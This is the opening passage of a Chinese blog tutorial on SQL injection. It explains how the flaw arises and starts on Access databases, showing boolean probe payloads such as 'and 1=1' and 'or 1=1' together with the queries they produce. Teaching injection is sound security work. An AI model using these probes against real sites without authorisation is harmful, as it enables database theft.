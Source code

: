 ```yaml
---
title: SQL注入分类与详解
date: 2018-08-12 20:32:31
tags:
    - 渗透
    - SQL注入
    - 漏洞
categories: 渗透测试
keywords:
description:
---
```

![](http://image.ixysec.com/image/sql/sqlinjectionlogo.png)
对SQL注入的大概分类总结，和一些基础的利用方法。

SQL注入是一种通过操纵输入来修改后台SQL语句以达到利用代码进行攻击的技术。

SQL注入产生的危害很多，比如后台用户及密码泄露、会员用户信息泄露、读写文件，甚至可以获得服务器权限。因此，SQL注入也是OWSP TOP 10的常客。

## SQL注入产生原理
攻击者能够控制发送给SQL查询的输入，并且开发者没有对这些输入进行安全检查和过滤直接组合到SQL语句，那么组合后的恶意语句就会被带入数据库执行。

## SQL注入分类
SQL注入的分类很多，不同的人也会将注入分成不同的种类，下面笔者将介绍一下常见的分类。

**注意：此文章中标点符号在页面中显示可能会转成中文的，自己测试时候语句中的标点一律使用英文输入法状态下的。**

### 根据数据库类型分类
每一种数据库都有一种注入命名方式，以下是比较常见的数据库注入方式
#### ACCESS注入
+ 数据库结构

![](http://image.ixysec.com/image/sql/sql001.png)

+ 判断注入
```
and 1=1
and 1=2

```
select * from product where id=1406 and 1=1  //真条件页面正常

![](http://image.ixysec.com/image/sql/sql002.png)

select * from product where id=1406 and 1=2  //假条件返回空

![](http://image.ixysec.com/image/sql/sql003.png)

```
or 1=1
or 1=2
```
select * from product where id=1406 or 1=1   //永真条件会返回数据库中全部结果
